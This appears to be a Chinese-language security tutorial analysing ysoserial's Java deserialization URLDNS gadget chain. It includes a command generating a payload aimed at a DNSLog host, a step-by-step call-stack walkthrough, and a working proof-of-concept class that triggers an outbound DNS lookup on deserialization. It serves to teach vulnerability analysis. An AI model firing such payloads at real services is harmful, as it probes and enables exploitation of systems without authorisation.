







## 环境准备
> 这是反序列化系列的第一篇文章，所以先简单介绍下环境搭建以及如何调试


### ysoserial
> [ysoserial](https://github.com/frohoff/ysoserial)是一款用于生成反序列化数据的工具。攻击者可以选择利用链和输入自定义命令，然后通过该工具生成对应的反序列化利用数据，然后将生成的数据发送给存在漏洞的目标，从而执行命令。

- 安装多个不同版本 JDK，因为有些利用链有版本限制，这里是`8u291`和`8u66`
- 下载 [ysoserial](https://github.com/frohoff/ysoserial) 源码到本地，该工具包含了所需要的依赖库，只需要 Maven 导入即可；
   - 如果依赖有问题，可以手工点击菜单里的`Files - Project Structure`配置`Libraries`
- 将`src/test/java/`目录下的文件全部删除，后续在这个目录下编写的测试类；最后将 [ysoserial-all.jar](https://github.com/frohoff/ysoserial/releases/) 下载到本地，便于生成序列化数据进行测试。

最终主要目录结构如下：


### Gadget
> Gadget 就是利用链，也叫 Gadget Chains，它连接的是**从触发位置开始到执行命令的位置结束**。

ysoserial 中存在着很多条 Gadget，而使用 Gadget 时都会调用其中的`getObject()`方法，该方法会返回一个对象，最后将该对象进行序列化；如果目标存在反序列化漏洞，并满足这个 Gadget 对应的条件。那么在将这个 Gadget 所对应生成的序列化对象发送给目标时，目标会对其进行反序列化，最终导致序列化对象中的恶意命令被执行。
运行 [ysoserial-all.jar](https://github.com/frohoff/ysoserial/releases/) 工具简单生成了一条 URLDNS 的 POC：

```bash
$ java -jar ysoserial-all.jar URLDNS "http://xxx.dnslog.cn" > dnslog.ser

```

### 参数配置
在`pom.xml`文件中找到入口文件，也就是`GeneratePayload.java`

```xml
<manifest>
  <mainClass>ysoserial.GeneratePayload</mainClass>
</manifest>
```
在`GeneratePayload.java`的`main`函数处添加断点，然后右上角修改配置，添加所需参数，最后点击调试


## 利用链分析
利用链：

```java
Gadget Chain:
  HashMap.readObject()
    HashMap.putVal()
      HashMap.hash()
        URL.hashCode()
```

### 获取类对象
> 这部分会先获取所调用的 Gadget 的类对象，这里是 URLDNS 的类对象，后续其他 Gadget 也是同理

首先 ysoserial 接收到参数并分别赋值，接着跟进`Utils.getPayloadClass("URLDNS")`方法

```java
final String payloadType = args[0];  // URLDNS
final String command = args[1];      // <DNGLog平台地址>

```

在`getPayloadClass()`方法中，通过反射获取到传入的`URLDNS`的 Class 对象并返回

- 这里一开始的`Class.forName("URLDNS")`并没有找到对应的类对象，所以`clazz == null`
- 进入`if`语句后，通过拼接完整类名`ysoserial.payloads.URLDNS`后才获取到类对象



### 构造恶意序列化对象
> 这条 URLDNS 链的重点就是如何构造一个恶意的 HashMap 序列化对象并返回

`URLDNS`的 Class 对象返回后将赋值给`payloadClass`，然后执行`newInstance()`方法创建实例，并调用该实例的`getObject()`方法，并将 DNSLog 平台地址作为参数传入

跟进`payload.getObject()`看看：

- 创建`HashMap`对象和`URL`对象
- 调用`HashMap`对象的`put`方法，键为 URL 对象，值为传入的参数，即 DNSLog 平台地址
- 最后通过反射设置`URL`对象的`hashCode`设为`-1`


> 为什么要通过反射将 URL 对象的`hashCode`的值为`-1`？原因已经在`URLDNS`的注释中：
> During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.
> 设置这个 URL 对象的`hashCode`为初始值`-1`，这样反序列化时将会重新计算其`hashCode`，才能触发到后⾯的 DNS 请求，否则不会调⽤`URL#hashCode()`

最后将`HashMap`对象进行序列化并返回

```java
final Object object = payload.getObject(command);
PrintStream out = System.out;
Serializer.serialize(object, out);

```

## 反序列化触发
> 触发反序列化的⽅法是`readObject()` ，因为 Java 开发者经常会在某些类中重写该方法，导致可以构造利⽤链。

在 URLDNS 利用链中，ysoserial 先获取到了 URLDNS 的类对象，然后调用了该类对象`newInstance()`方法创建实例，然后调用该实例的`getObject()`方法获取到一个序列化后的`HashMap`对象。
因此在将这段序列化数据发送给目标，目标对其进行反序列化时，会触发`HashMap`对象的`readObject()`方法。所以可以直接看`HashMap`类的`readObject()`方法：

```java
private void readObject(java.io.ObjectInputStream s)
  throws IOException, ClassNotFoundException {
  // Read in the threshold (ignored), loadfactor, and any hidden stuff
  s.defaultReadObject();
  reinitialize();
  if (loadFactor <= 0 || Float.isNaN(loadFactor))
    throw new InvalidObjectException("Illegal load factor: " +
                                     loadFactor);
  s.readInt();                // Read and ignore number of buckets
  int mappings = s.readInt(); // Read number of mappings (size)
  if (mappings < 0)
    throw new InvalidObjectException("Illegal mappings count: " +
                                     mappings);
  else if (mappings > 0) { // (if zero, use defaults)
    // Size the table using given load factor only if within
    // range of 0.25...4.0
    float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
    float fc = (float)mappings / lf + 1.0f;
    int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
               DEFAULT_INITIAL_CAPACITY :
               (fc >= MAXIMUM_CAPACITY) ?
               MAXIMUM_CAPACITY :
               tableSizeFor((int)fc));
    float ft = (float)cap * lf;
    threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                 (int)ft : Integer.MAX_VALUE);

    // Check Map.Entry[].class since it's the nearest public type to
    // what we're actually creating.
    SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
    @SuppressWarnings({"rawtypes","unchecked"})
      Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
    table = tab;

    // Read the keys and values, and put the mappings in the HashMap
    for (int i = 0; i < mappings; i++) {
      @SuppressWarnings("unchecked")
        K key = (K) s.readObject();
      @SuppressWarnings("unchecked")
        V value = (V) s.readObject();
      putVal(hash(key), key, value, false, false);
    }
  }
}
```
在`HashMap`类中的第`41`行`putVal(hash(key), key, value, false, false);`处打下断点
> 在没有分析过的情况下，为何关注 hash 函数？
> 因为 ysoserial 的注释中很明确地说明了“During the put above, the URL's hashCode is calculated and cached. This resets that so the next time hashCode is called a DNS lookup will be triggered.”，是指 hashCode 的计算操作触发了DNS请求。


创建一个简单的`TestDNS.java`文件并调试，程序将从`ois.readObject()`进入到`HashMap`类的断点

```java
package deserialization;

import java.io.*;
public class TestDNS {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        String serfile = "src/test/java/dnslog.ser";
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(serfile));
        ois.readObject();
    }
}

```
接着调用了`HashMap#putVal()`方法，该方法中调用了另一个方法`hash(key)`，跟进发现`HashMap#hash()`方法调用了`key.hashCode()`，即计算`key`的 Hash 值；
跟进跳转到`URL#hashCode()`方法，这里当`hashCode!=-1`时会直接返回。而如果`hashCode==-1`，就会执行下面的`handler.hashCode()`；

```java
public synchronized int hashCode() {
    if (hashCode != -1)
        return hashCode;

    hashCode = handler.hashCode(this);
    return hashCode;
}
```
再次跟进，跳转到`URLStreamHandler#hashCode()`，该方法中调用了`URLStreamHandler#getHostAddress()`方法；
依次跟进到`URL#getHostAddress()`方法，这里调用了`InetAddress.getByName(host)`，该方法会根据主机名获取 IP 地址，即进行一次 DNS 查询，触发 DNSLog 记录

完整调用栈如下：

```java
HashMap#readObject()
  HashMap#hash()
    URL#hashCode()
      URLStreamHandler#hashCode()
        URLStreamHandler#getHostAddress()
          URL#getHostAddress()

```


总的来说，这条链的触发原因是`HashMap`重写了`readObject()`方法，该方法中会触发`putVal(hash(key), key, value, false, false);`；跟进`hash(key)`发现存在`key.hashCode()`，即计算`key`的哈希值；
因为前面把`URL`对象当成`key`存进了`HashMap`，所以这里会触发`URL`对象的`hashCode()`方法；在`URL#hashCode()`中，当`hashCode==-1`时会触发`URLStreamHandler#hashCode()`，进行到后⾯的 `getHostAddress()`方法查询主机地址时，会触发 DNS 请求。

## 利用链构造
根据前面的调用栈：

- 首先需要一个`HashMap`和`URL`实例
- 设置`URL`实例的`hashCode`值为`-1`
- 将`hashMap`对象进行序列化
- 反序列化触发漏洞

```java
package deserialization;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.util.HashMap;

public class DemoURLDNS {
    public static void main(String[] args) throws Exception {
        HashMap hashMap = new HashMap();
        URL u = new URL("http://xxx.dnslog.cn");
        hashMap.put(u, "test");

        Field field = URL.class.getDeclaredField("hashCode");
        field.setAccessible(true);
        field.set(u, -1);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(hashMap);
        oos.close();

        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(baos.toByteArray()));
        ois.readObject();

    }
}

```
